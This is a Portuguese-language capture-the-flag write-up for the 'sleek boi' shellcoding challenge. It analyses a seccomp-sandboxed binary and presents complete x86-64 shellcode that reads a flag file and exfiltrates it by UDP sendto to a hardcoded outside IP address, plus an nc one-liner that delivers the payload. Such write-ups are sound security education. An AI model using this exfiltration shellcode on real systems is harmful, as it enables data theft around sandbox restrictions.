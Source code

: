 # sleek boi


## Infos
**Descrição**: I don't talk, but I can be submissive

**Anexo**: [chall](attachments/chall)


## Análise do desafio 

Neste desafio recebemos um arquivo binário com as seguintes características:
<pre>
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
</pre>

Analisando estaticamente o anexo percebemos três funções interessantes. São elas:

- main 
- sub_D0E (**child_do**)
- sub_B74 (**setup_syscall_filter**)

### main

A função **main** mapeia uma região de memória de 16Kb com permissões de leitura, escrita e execução. Logo em seguida este espaço é preenchido com um buffer lido de *stdin*.

Após um *fork* bem-sucedido a função **child_do** é executada pelo processo filho tomando como argumento um ponteiro para a região mapeada acima.

<pre lang="c">
void main(int argc, char *argv[ ]){
  int v3, v4;
  __pid_t v5; 
  char *buf; 
  
  v3 = getpagesize();
  buf = mmap(0LL, -v3 & 0x4000, 7, 34, -1, 0LL);
  if ( !buf )
    __assert_fail("psc != NULL", "chall.c", 0x5Du, "main");
  fflush(stdout);
  v4 = getpagesize();
  buf[(signed int)read(0, buf, -v4 & 0x4000)] = -61;
  v5 = fork();
  if ( v5 < 0 )
    perror("fork");
  if ( v5 > 0 ){
    wait(0);
    exit(0);
  }
  child_do(buf);
}
</pre>

### child_do

A função **child_do** faz uma chamada para a função **setup_syscall_filter** (única diferença em relação ao desafio [meek boi](https://github.com/nullcon/hackim-2020/tree/master/pwn/meek_boi)).

Em seguida o *file descriptor* para */dev/null* é duplicado para *stdin*, *stdout* e *stderr* e o fluxo de execução é desviado para o espaço mapeado na função **main**. 

<pre lang="c">
void child_do(void (*f)()){
  unsigned int fd; // ST1C_4
  
  setup_syscall_filter();
  fclose(stdin);
  fclose(stdout);
  fclose(stderr);
  fd = open("/dev/null", 2);
  dup2(fd, 0);
  dup2(fd, 1);
  dup2(fd, 2);
  f();
  exit(0);
}
</pre>

### setup_syscall_filter

Em **setup_syscall_filter** são atribuídas, via *prctl*, restrições às chamadas de sistema que podem ser executadas pelo processo.

Utilizando a ferramenta [seccomp-tools](https://github.com/david942j/seccomp-tools) podemos visualizar facilmente quais *syscalls* estão sendo filtradas.


<pre lang="c">
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x15 0x06 0x00 0x0000003b  if (A == execve) goto 0010
0004: 0x15 0x05 0x00 0x00000142  if (A == execveat) goto 0010
0005: 0x15 0x04 0x00 0x0000002a  if (A == connect) goto 0010
0006: 0x15 0x03 0x00 0x00000031  if (A == bind) goto 0010
0007: 0x15 0x02 0x00 0x0000002b  if (A == accept) goto 0010
0008: 0x15 0x01 0x00 0x00000120  if (A == accept4) goto 0010
0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
0010: 0x06 0x00 0x00 0x00051234  return ERRNO(4660)
</pre>




## Solução

Este é um desafio clássico de *shellcoding*. Temos que passar para o *server* um payload que nos permita ler */home/pwn/flag*.
Para isso devemos contornar as seguintes restrições:

- não podemos interagir com *stdin*, *stdout* e *stderr*
- não podemos fazer chamada às *syscalls* filtradas em **setup_syscall_filter**

Na primeira versão deste desafio ([meek boi](https://github.com/nullcon/hackim-2020/tree/master/pwn/meek_boi)) é possível resolver através de uma simples *shell* reversa sob TCP. Mas, no [sleek boi](https://github.com/nullcon/hackim-2020/tree/master/pwn/sleek_boi), não podemos realizar ```bind```e ```connect```. Logo, temos que adotar outra estratégia. A alternativa que utilizei neste desafio foi exfiltrar a *flag* via ```SOCK_DGRAM``` utilizando a *syscall* ```sendto```.


<pre lang="asm">
; sm.asm
section .text
global _start

_start:
  ; just to ensure that the child process regs will not get in the way
  xor rax, rax
  xor rbx, rbx
  xor rcx, rcx
  xor rdx, rdx
  xor rdi, rdi
  xor rsi, rsi
  xor r8, r8
  xor r9, r9
  xor r10, r10
  xor r11, r11
  xor r12, r12
  xor r13, r13
  xor r14, r14
  xor r15, r15

 ; socket(PF_INET, SOCK_DGRAM, IPPROTO_IP)
  push byte 2
  pop rdi
  mov rsi, rdi
  xor rax, rax
  mov al, 0x29 ; __NR_socket
  syscall

  ; open("/home/pwn///flag", O_RDONLY)·
  mov r12, rax
  xor rsi, rsi
  push rsi
  push 1
  dec byte [rsp]
  mov rax, 0x67616c662f2f2f6e
  push rax
  mov rax, 0x77702f656d6f682f
  push rax
  mov rdi, rsp ; /home/pwn///flag
  xor edx, edx·
  xor esi, esi·
  push 2 ; __NR_open
  pop rax
  syscall

  ; read(fd, buf, 0x38)
  mov r11, rax ; flag fd to r11
  xor eax, eax ; __NR_read  = 0
  mov rdi, r11 ; flag fd
  push 0x38
  pop rdx
  sub rsp, 0x38 ; buf
  mov rsi, rsp
  syscall

  ;sendto(int sockfd, const void *buf, size_t len, int flags,
  ;      const struct sockaddr *dest_addr, socklen_t addrlen);
  lea r11, [rsp]
  mov rdx, rax ; len
  mov rax, 0x101010101010101
  push rax
  mov rax, 0x101010101010101 ^ 0x5a37e82c9a020002
  xor [rsp], rax
  mov r8, rsp ; {sa_family=AF_INET, sin_port=htons(666), sin_addr=inet_addr("44.232.55.90")}
  xor r10, r10·
  push r10
  push 1
  pop r10
  dec r10
  push 0x10
  pop r9 ; addrlen
  mov rsi, r11 ; buf
  mov rdi, r12 ; sockfd
  xor rax, rax
  mov al, 0x2c ; __NR_sendto
  syscall

  ; exit(0)
  xor rdi, rdi
  xor rsi, rsi
  xor rax, rax
  mov al, 0x3c
  syscall
</pre>

<pre lang='bash'>
$ nasm sc.asm -felf64 -o sc.o; ld sc.o -o sc
$ printf $(for i in $(objdump -d sc -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done) | nc pwn4.ctf.nullcon.net 5003
</pre>

### Flag
`hackim20{OMG_The_first_one_was_unintended}`
